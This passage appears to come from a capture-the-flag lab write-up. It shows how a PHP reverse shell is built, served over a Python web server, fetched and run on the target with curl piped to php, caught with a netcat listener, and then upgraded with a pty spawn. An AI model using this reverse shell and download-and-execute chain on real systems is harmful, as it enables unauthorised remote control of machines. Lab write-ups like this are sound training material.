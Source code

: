 Time to get proper shell. Preparing payload:

```php
#pshell.php
<?php
$sock=fsockopen("10.XX.XX.XXX",443);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Serve it on the python HTTP server:

```sh
$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start `netcat` to listen for reverse shell:
```text
$ nc -lvnp 443

listening on [any] 443 ...
```

Execute on the web:

```sh
curl 10.XX.XX.XXX/pshell.php | php
```
And on the `netcat` we can see:

```text
$ nc -lvnp 443

listening on [any] 443 ...
connect to [10.XX.XX.XXX] from (UNKNOWN) [10.10.124.36] 57104
/bin/sh: 0: can't access tty; job control turned off
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Semi-stabilize shell (read more in _Additional readings_, "Upgrading Simple Shells"), alias the `ls` for clearer output.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
alias ls="ls -lah"
```

Little traversing:

